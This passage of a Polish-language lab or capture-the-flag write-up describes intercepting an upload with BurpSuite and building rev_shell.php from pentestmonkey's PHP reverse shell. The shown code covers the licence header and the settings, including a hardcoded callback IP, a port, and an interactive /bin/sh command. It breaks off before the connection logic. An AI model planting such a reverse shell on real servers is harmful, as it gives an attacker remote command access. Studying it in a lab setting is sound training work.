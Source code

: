 
Uruchamiamy zatem BurpSuite, uruchamiamy FoxyProxy w przeglądarce oraz w Burpie włączamy *intercept*. Utworzymy odrazu odpowiedni plik z reverse shellem - *rev_shell.php*. Zawartość pliku znajduje się poniżej


```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.198.6';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
//
```